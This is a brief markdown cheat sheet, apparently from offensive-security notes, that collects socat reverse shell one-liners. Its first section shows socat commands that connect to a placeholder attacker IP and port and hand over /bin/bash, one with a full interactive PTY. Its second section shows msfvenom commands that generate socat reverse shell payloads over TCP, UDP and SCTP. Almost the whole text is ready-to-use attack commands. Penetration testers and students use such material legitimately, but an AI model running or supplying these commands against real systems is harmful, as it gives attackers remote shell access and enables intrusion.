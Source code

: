 # Socat

## 01 - One-liners

### 1.1 - TCP Method

```
$ socat TCP4:<attacker_IP>:<attacker_PORT> EXEC:/bin/bash

$ socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:<attacker_IP>:<attacker_PORT>
```

## 02 - Generate via `msfvenom`

### 2.1 - TCP Method

```
$ msfvenom -p cmd/unix/reverse_socat_tcp lhost=<IP> lport=<PORT>
```

### 2.2 - UDP Method

```
$ msfvenom -p cmd/unix/reverse_socat_udp lhost=<IP> lport=<PORT>
```

### 2.3 - SCTP Method

```
$ msfvenom -p cmd/unix/reverse_socat_sctp lhost=<IP> lport=<PORT>
```